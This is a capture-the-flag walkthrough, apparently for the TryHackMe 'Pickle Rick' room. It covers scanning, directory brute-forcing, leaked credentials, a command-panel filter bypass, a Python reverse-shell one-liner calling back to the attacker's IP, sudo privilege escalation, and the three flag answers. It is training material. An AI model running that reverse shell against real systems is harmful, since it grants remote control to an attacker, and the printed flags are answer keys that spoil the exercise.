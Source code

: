 Room: https://tryhackme.com/room/picklerick

After a scanning with nmap, we can see that ports 22 and 80 are open.  

Port 80 - is the website we're currently inspecting, at http://[machine_ip].  
Port 22 - is the SSH service running, which may be useful at a later time.

We can run a directory bruteforcing tool to scan the website, in order to discover hidden directories.   

Personally, I'll use gobuster, but dirbuster can be used as a GUI alternative.  

While the scan is running, I had a quick look at the main page's source code. We see that the developers left some notes for themselves.   

> Username: R1ckRul3s

In the meanwhile, the directory bruteforcing has finished. We found a few interesting results.  

First of all, the file robots.txt contains some (maybe) useful information: **Wubbalubbadubdub**  

Using the username found earlier and the text inside robots.txt we can log in as Rick in the /login.php page.  

There we find a command panel, the other links being unavaible. Using the **ls** command it returns the files inside the current directory.  

###### The output of **ls** command  

>Sup3rS3cretPickl3Ingred.txt  
>assets  
>clue.txt  
>denied.php  
>index.html  
>login.php  
>portal.php  
>robots.txt  

The downside is that the **cat** command is disabled.  

Using some bash, we can use __while read line; do echo $line; done <Sup3rS3cretPickl3Ingred.txt__  

The output of the file content is **mr. meeseek hair**, being the **first** flag we need for this CTF. **[1]**

We can read the **clue.txt** file using the same method as before.  
>Look around the file system for the other ingredient.

Since Python is installed on the remote machine, I used a python reverse shell and started a netcat listener on the attacking machine. 

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MY_MACHINE_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
* Use pty.spawn("/bin/bash") at the end for spawning a bash shell insdead of a sh. 

We get a reverse shell as www-data user. After checking the SUDO permissions, we see that this user has permission to run any command with sudo privileges, which makes it really easy for us to find the other two flags on the system.  

By using the **sudo su root** command, we can switch to the user **root**.  

The second **flag** is **1 jerry tear** and is located at **/home/rick**. **[2]**  

The third and final **flag** is **fleeb juice** and is located inside the **/root** directory. **[3]**
